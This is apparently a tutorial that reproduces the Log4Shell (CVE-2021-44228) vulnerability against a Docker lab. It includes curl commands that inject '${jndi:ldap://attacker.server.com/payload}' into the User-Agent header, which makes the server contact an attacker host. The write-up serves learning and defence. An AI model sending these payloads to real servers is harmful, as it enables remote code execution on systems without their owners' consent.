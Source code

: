 # Log4J / CVE-2021-44228
    Versions: All versions from 2.0-beta9 to 2.16


CVE-2021-44228 or Log4Shell is a vulnerability found in the Java library with the maximum criticality score of CVSS 10/10. The library named Log4j got this rating because besides being very popular, it grants access to Remote Code Execution (RCE).

It is still used by many companies of all types and sizes and even after months of its discovery being made public, a lot of hosts still haven't updated their software. Here in this article, I present a way to run the exploit so that you can understand the vulnerability and prevent it from being exploited on your system and also explain a little about your application.

Your first targets are usually data entry points like username and password logins, http headers like User-Agent, X-Forwarded-For and others. Basically anywhere the user can provide data.

To perform this exploit, I used a vulnerable and easy-to-apply LAB with Log4J available in this [GIT](https://github.com/leonjza/log4jpwn).

![docker](https://user-images.githubusercontent.com/66689576/160430502-abc2c99e-7a65-48d5-913d-f165442ef757.png)

With docker running on port 8080, we can start to identify if the server is vulnerable to log4shell or not.
It may be interesting to check the version of Log4J, if there is a log where you can insert some information that the application does not consider as a string, as well as an endpoint with some protocol such as HTTP for example, which may allow sending a malicious string.

At first, I will use **curl** to send a request to the server, requesting the java version from the User-Agent.

    curl -v -H 'User-Agent: ${java:version}' '172.17.0.1:8080/'

Making the server run it: 

![ua](https://user-images.githubusercontent.com/66689576/160430578-9caa5e17-129b-4bc3-a7fd-1e574ac4fc2e.png)

Now we can get a little better look at what's to come. If in our request, we use the **JNDI** (Java Naming and Directory Interface) protocol, it becomes possible to execute some malicious payload inside the server, thus triggering the log4j vulnerability, which, after execution, makes the server returns us a Java classpath, which was injected earlier.

This injected payload when triggered, gives the attacker access to execute arbitrary code. 

	curl -v -H 'User-Agent: ${jndi:ldap://attacker.server.com/payload}' '172.17.0.1:8080/'
	
JNDI is an independent API that gives access to directory services, bringing objects or data to the client side through information (name). Its two basic functions are to associate a name with a resource and to find a resource by its name. 

When we make a request to the User-Agent, sending what would be the payload, through Curl to the server, we are acting within the network itself, being safer to detect the vulnerability.

![curlTrue](https://user-images.githubusercontent.com/66689576/162072699-82285f21-70d6-4668-b94c-96a1ab4eb771.png)

Here we can see that a connection was established with my machine, when the server (docker) executed the payload I sent to it, thus releasing the opportunity for an RCE.

![nc22222](https://user-images.githubusercontent.com/66689576/162073080-26e07482-377c-43d7-afd7-b8009d32631e.png)

Server-side view running the payload:

![logLog](https://user-images.githubusercontent.com/66689576/162073340-6db1bf73-975d-47b7-97d7-011c7c7c76c8.png)

## Conclusion

Between these versions it is possible to execute a script/payload on the server where the application is, opening the possibility of creating an RCE connection through any field that we can insert data, http headers...

That's it :)
